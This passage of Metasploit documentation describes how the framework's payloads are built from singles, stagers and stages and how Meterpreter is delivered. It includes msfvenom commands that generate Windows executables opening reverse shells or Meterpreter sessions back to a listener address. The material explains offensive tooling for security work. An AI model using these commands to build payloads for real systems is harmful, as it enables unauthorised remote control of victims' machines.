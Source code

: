 Payloads are defined in ```modules/payloads/{singles,stages,stagers}/<platform>```. When the framework starts up, stages are combined with stagers to create a complete payload that you can use in exploits. Then, handlers are paired with payloads so the framework will know how to create sessions with a given communications mechanism.

Payloads are given reference names that indicate all the pieces, like so:
  - Staged payloads: ```<platform>/[arch]/<stage>/<stager>```
  - Single payloads: ```<platform>/[arch]/<single>```

### Singles
Single payloads are fire-and-forget. They can create a communications mechanism with Metasploit, but they don't have to. An example of a scenario where you might want a single is when the target has no network access -- a fileformat exploit delivered via USB key is still possible.

### Stagers
Stagers are a small stub designed to create some form of communication and then pass execution to the next stage. Using a stager solves two problems. First, it allows us to use a small payload initially to load up a larger payload with more functionality. Second, it makes it possible to separate the communications mechanism from the final stage so one payload can be used with multiple transports without duplicating code.

### Stages

## Meterpreter
To avoid confusion, the victim running meterpreter is always called the server and the ruby side controlling it is always called the client, regardless of the direction of the original connection.

The Meterpreter server is broken into several pieces:
  - metsrv.dll - this is the heart of meterpreter where the protocol and extension systems are implemented
  - ext_server_stdapi.dll - this extension implements most of the commands familiar to users
  - ext_server_*.dll - other extensions provide further functionality

### Delivering Meterpreter

1. Using a technique developed by Stephen Fewer, metsrv.dll's header is modified to be usable as shellcode. From there, Metasploit can embed it in an executable or run it via an exploit like any other shellcode.

1. The IP address and port you want the payload to connect back to are embedded in the stager. As discussed above, all staged payloads are no more than a small stub that sets up communication and executes the next stage. When you create an executable using a staged payload, you're really just creating the stager. So the following commands would create functionally identical exe files:
```
    msfvenom -f exe LHOST=192.168.1.1 -p windows/meterpreter/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/shell/reverse_tcp
    msfvenom -f exe LHOST=192.168.1.1 -p windows/vncinject/reverse_tcp
```
(Note that these are functionally identical -- there is a lot of randomization that goes into it so no two executables are the same.)

1. The Ruby side acts as a client, speaking the meterpreter wire protocol over whichever transport mechanism was set up by the stager (tcp or http(s)).
